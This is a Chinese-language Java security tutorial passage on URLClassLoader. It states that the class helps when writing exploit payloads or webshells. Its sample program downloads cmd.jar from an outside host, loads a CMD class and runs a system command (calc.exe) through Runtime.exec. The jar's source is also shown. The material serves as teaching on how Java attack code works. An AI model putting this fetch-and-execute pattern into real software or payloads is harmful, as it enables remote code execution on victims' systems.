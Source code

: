 ### URLClassLoader

- URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。
- TestURLClassLoader.java示例：

  ```java
  package test;
  import java.io.ByteArrayOutputStream;
  import java.io.InputStream;
  import java.net.URL;
  import java.net.URLClassLoader;
  /**
      * Creator: yz
      * Date: 2019/12/18
      */
  public class TestURLClassLoader {
      public static void main(String[] args) {
          try {
              // 定义远程加载的jar路径
              URL url = new URL("https://javaweb.org/tools/cmd.jar");
              // 创建URLClassLoader对象，并加载远程jar包
              URLClassLoader ucl = new URLClassLoader(new URL[]{url});
              // 定义需要执行的系统命令
              String cmd = "calc.exe";
              // 通过URLClassLoader加载远程jar包中的CMD类
              Class cmdClass = ucl.loadClass("CMD");
              // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("calc.exe");
              Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
              // 获取命令执行结果的输入流
              InputStream           in   = process.getInputStream();
              ByteArrayOutputStream baos = new ByteArrayOutputStream();
              byte[]                b    = new byte[1024];
              int                   a    = -1;
              // 读取命令执行结果
              while ((a = in.read(b)) != -1) {
                  baos.write(b, 0, a);
              }
              // 输出命令执行结果
              System.out.println(baos.toString());
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```
- 执行结果，弹出计算器。
- 远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：

  ```java
  import java.io.IOException;
  /**
  * Creator: yz
  * Date: 2019/12/18
  */
  public class CMD {
  	public static Process exec(String cmd) throws IOException {
  		return Runtime.getRuntime().exec(cmd);
  	}
  }
  
  ```
